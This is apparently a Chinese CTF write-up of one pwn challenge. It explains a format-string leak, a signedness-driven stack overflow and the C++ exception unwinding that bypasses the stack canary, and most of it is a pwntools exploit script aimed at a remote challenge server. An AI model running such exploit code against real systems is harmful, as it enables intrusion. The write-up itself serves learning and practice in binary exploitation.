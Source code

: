 趁着摸鱼空闲的时候做了下，只有一道pwn题，栈溢出不难。还是学到了新东西

一个简单格式化fmt用于leak和补码问题造成的栈溢出

这题重点是C++异常处理后会进行栈回退还有不会堆canary进行检查

出题人故意降低难度可以栈迁移到heap，不过我这没有用，leak出栈地址直接在栈上操作也可以，不过在布置的时候需要小心，不然会unwind会出错

```python
from pwn import *

#context.log_level = "debug"

bin = ELF("./exploit_1")
libc = bin.libc
#p = bin.process()
p = remote("118.25.216.151",10001)
def Debug(cmd=""):
    gdb.attach(p,cmd)

def name(context):
    p.sendlineafter("name:\n",context)

def motto(size,context):
    p.sendlineafter("motto:\n",str(size))
    p.sendlineafter("motto:\n",context)

#Debug("b *0x400E3d\nc\n")
payload = "AAA%pBBB%p"
name(payload)
p.recvuntil("AAA")
stack = int(p.recv(14),16)
p.recvuntil("BBB")
libc.address = int(p.recv(14),16)-0x6cf780+0x309000
success("stack-->"+hex(stack))
success("libc-->"+hex(libc.address))

payload  = payload.ljust(0x410,"A")
payload += p64(stack+0x002720)+p64(0x400ed2)
payload += p64(libc.address+0x4526a)*6
payload += p64(0x400f40)+p64(libc.address+0x45216)

motto(-9223372036854775809,payload)
p.interactive()
```

本来想做re的，结果又去降智商玩OSU去了